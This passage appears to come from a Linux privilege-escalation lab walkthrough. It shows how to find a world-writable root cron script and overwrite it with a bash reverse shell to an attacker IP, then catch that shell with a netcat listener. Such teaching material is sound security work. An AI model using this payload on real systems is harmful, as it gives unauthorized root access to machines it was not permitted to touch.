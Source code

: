 ```bash
locate overwrite.sh
```

**Sample Output:**

```bash
/usr/local/bin/overwrite.sh
```

Check the file's permissions:

```bash
ls -l /usr/local/bin/overwrite.sh
```

**Sample Output:**

```bash
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

**Explanation:**  
The file permissions `-rwxr--rw-` indicate that `overwrite.sh` is writable by all users (`rw-` at the end). This is a serious security vulnerability because any user can modify the script, potentially injecting malicious code that will be executed as root.

### Step 3: Exploit the Vulnerable Script

Replace the contents of the `overwrite.sh` file with a reverse shell payload. First, edit the script:

```bash
vim /usr/local/bin/overwrite.sh
```

Replace its contents with the following, after adjusting the IP address to match your attack machine:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**Explanation:**  
This payload creates a reverse shell that will connect back to your attack machine on the specified IP address and port (`4444`). When the cron job runs `overwrite.sh`, it will execute this payload with root privileges.

### Step 4: Set Up a Netcat Listener

Set up a netcat listener on your Kali machine to catch the reverse shell:

```bash
nc -nvlp 4444
```

**Explanation:**  
Netcat (`nc`) is used here to listen on port `4444` for incoming connections. When the `overwrite.sh` script runs, it will initiate a connection to your netcat listener, giving you a root shell.
